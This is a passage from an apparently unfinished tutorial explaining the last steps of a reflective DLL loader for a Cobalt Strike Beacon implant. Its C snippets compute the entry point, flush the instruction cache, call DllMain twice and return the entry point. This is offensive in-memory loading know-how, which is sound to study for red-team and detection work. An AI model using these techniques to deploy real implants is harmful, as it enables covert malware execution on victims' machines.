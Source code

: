 ```c
    }
}
```

## Return the Entry Point

Finally, after the relocations were successful, we can find and return the entry point. 

<br>1. **Calculate the entry point**: this is the address of the `DllMain` function. The `AddressOfEntryPoint` is an offset from the base address of the DLL to its entry point.

```c
// STEP 6: find our image's entry point
ULONG_PTR entryPoint = newBeaconBaseAddress + beaconNtHeader->OptionalHeader.AddressOfEntryPoint;
PRINT("[+] Entry point: %p \n", entryPoint);
```

<br>2. **Flush the instruction cache**: it's essential to ensure that the CPU's instruction cache doesn't contain any stale or outdated instructions.

```c
/** 
    * STEP 7: call our image's entry point
    * We must flush the instruction cache to avoid stale code being used which was updated by our relocation processing.
*/
winApi.NtFlushInstructionCache((HANDLE)-1, NULL, 0);
```

<br>3. **Execute the DLL's Entry Point**: The DLL's entry point (DllMain function) is called twice. The first call uses the DLL_PROCESS_ATTACH flag, which is standard when a DLL is first loaded into a process. The purpose of the second call with the flag 4 is not standard and might be specific to the "Beacon" or the context in which this code is used.

```c
// call DllMain twice to ensure that Beacon is set up correctly.
PRINT("[*] Executing Beacon\n");
((DLLMAIN)entryPoint)((HINSTANCE)newBeaconBaseAddress, DLL_PROCESS_ATTACH, NULL);
((DLLMAIN)entryPoint)((HINSTANCE)beaconBaseAddress, 4, NULL);
```

<br>4. **Return the Entry Point Address**: The function returns the address of the DLL's entry point. This allows the caller to potentially call the DllMain function again if needed.

```c
// STEP 8: return our new entry point address so whatever called us can call DllMain() if needed.
return entryPoint;
```


# WIP

This article is still a work in process.


# Sources
---
